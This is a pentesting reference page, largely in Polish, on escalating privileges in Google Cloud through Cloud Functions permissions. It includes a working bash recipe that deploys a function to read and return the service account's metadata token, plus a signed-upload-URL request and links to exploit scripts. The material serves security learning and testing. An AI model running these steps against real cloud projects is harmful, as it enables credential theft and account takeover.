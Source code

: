 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Więcej informacji o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napastnik z tymi uprawnieniami może **utworzyć nową Cloud Function z dowolnym (złośliwym) kodem i przypisać jej konto usługi**. Następnie, wyciek tokena konta usługi z metadanych pozwala na eskalację uprawnień do niego.\
Możliwe, że będą wymagane pewne uprawnienia do wywołania funkcji.

Skrypty exploitacyjne dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a gotowy plik .zip można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napastnik z tymi uprawnieniami może **zmodyfikować kod funkcji, a nawet zmienić przypisane konto usługi** w celu wyeksfiltrowania tokena.

{% hint style="danger" %}
Aby wdrożyć funkcje chmurowe, będziesz również potrzebować uprawnień actAs dla domyślnego konta usługi obliczeniowej lub dla konta usługi używanego do budowy obrazu.
{% endhint %}

Niektóre dodatkowe uprawnienia, takie jak uprawnienie `.call` dla wersji 1 cloudfunctions lub rola `role/run.invoker` do wywołania funkcji mogą być wymagane.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Jeśli otrzymasz błąd `Permission 'run.services.setIamPolicy' denied on resource...`, to dlatego, że używasz parametru `--allow-unauthenticated` i nie masz wystarczających uprawnień do tego.
{% endhint %}

Skrypt exploitujący dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Dzięki temu uprawnieniu możesz uzyskać **podpisany URL, aby móc przesłać plik do koszyka funkcji (ale kod funkcji nie zostanie zmieniony, nadal musisz go zaktualizować)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie jestem pewien, jak przydatne jest tylko to uprawnienie z perspektywy atakującego, ale dobrze to wiedzieć.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Nadaj sobie dowolne z wcześniejszych uprawnień **`.update`** lub **`.create`**, aby eskalować.

### `cloudfunctions.functions.update`

Mając tylko uprawnienia **`cloudfunctions`**, bez **`iam.serviceAccounts.actAs`**, **nie będziesz w stanie zaktualizować funkcji, WIĘC TO NIE JEST WAŻNA ESCALACJA.**

### Dostęp do odczytu i zapisu w koszyku

Jeśli masz dostęp do odczytu i zapisu w koszyku, możesz monitorować zmiany w kodzie, a gdy tylko **nastąpi aktualizacja w koszyku, możesz zaktualizować nowy kod swoim własnym kodem**, z którym nowa wersja Cloud Function będzie uruchamiana z przesłanym złośliwym kodem.

Możesz sprawdzić więcej na temat ataku w:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Jednak nie możesz użyć tego do wstępnego kompromitowania funkcji Cloud innych firm, ponieważ jeśli stworzysz koszyk na swoim koncie i nadasz mu publiczne uprawnienia, aby zewnętrzny projekt mógł na nim pisać, otrzymasz następujący błąd:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Jednak to może być użyte do ataków DoS.
{% endhint %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
